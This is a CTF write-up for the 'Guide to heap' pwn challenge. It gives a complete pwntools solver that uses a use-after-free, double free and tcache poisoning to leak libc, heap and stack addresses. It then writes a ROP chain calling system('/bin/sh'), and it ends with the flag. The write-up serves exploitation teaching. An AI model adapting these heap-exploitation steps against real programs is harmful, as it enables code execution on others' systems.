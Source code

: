 # Guide to heap

This problem was generated using ChatGPT. No modifications have been made to the original source code.  
Originally, as the title suggests, I intended this to be a beginner-friendly heap problem where simply following the instructions would allow you to obtain the flag.  
I apologise for the misleading title.  
However, as it is a template problem, I believe it remains within the scope of beginner-friendly content.

## Result
Solved: 28  
Points: 383
1st: syn9(sknb)
2nd: 0xM4hm0ud(The Trio)
3rd: 5unsetpowerln(TPC)

## Challenge
We will guide you to the door of the heap world!  
`nc chal1.fwectf.com 8010`

Attachment: [guide_to_heap.zip](guide_to_heap.zip)

## writeup

Knowing the following will enable you to solve it:
* tcache, unsortedbin, etc.
* double free, UAF
* tcache poisoning
* libc leak
* ROP

Below is the executable code:
```python solver.py
from pwn import *

elf = context.binary = ELF('./chall')
libc = ELF('./libc.so.6')

def allocate_(index, size, data=None, zero=False):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(index).encode())
    p.sendlineafter(b': ', str(size).encode())
    if not zero:
        p.sendafter(b': ', data)
def delete_(index):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(index).encode())
def edit_(index, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b': ', str(index).encode())
    p.sendafter(b': ', data)
def show_(index):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b': ', str(index).encode())
def exit_():
    p.sendlineafter(b'> ', b'5')

p = process('./chall')

allocate_(0, 0x418, b'A'*0x418)
allocate_(1, 0x18, b'B'*0x18)
delete_(0)
delete_(1)

show_(0)
libc.address = u64(p.recvn(6).ljust(8, b'\0')) - 0x203b20
print('libc', hex(libc.address))

libc_argv = libc.address + 0x2046e0

show_(1)
heap = u64(p.recvn(3).ljust(8, b'\0')) << 12
print('heap', hex(heap))

allocate_(2, 0x18, b'A'*0x18)
allocate_(3, 0x18, b'B'*0x18)
delete_(2)
delete_(3)
edit_(3, p64((heap>>12)^libc_argv))
allocate_(4, 0x18, b'C'*0x18)
allocate_(5, 0x0, zero=True)
show_(5)
stack = u64(p.recvn(6).ljust(8, b'\0'))
print('stack', hex(stack))

target_stack = stack - 0x148

allocate_(6, 0x108, b'X'*0x108)
allocate_(7, 0x108, b'Y'*0x108)
delete_(6)
delete_(7)
edit_(7, p64(target_stack^(heap>>12)))
allocate_(0, 0x108, b'Z'*0x100)

system = libc.sym['system']
binsh  = next(libc.search(b'/bin/sh\0'))
pop_rdi = libc.address + 0x001ae710
ret = pop_rdi + 1

rop = flat(
    ret,
    pop_rdi,
    binsh,
    system,
)
payload  = p64(0xdeadbeef)
payload += rop
allocate_(1, 0x108, payload)

p.interactive()
```

## flag

`fwectf{kn0w1ng_7c4ch3}`
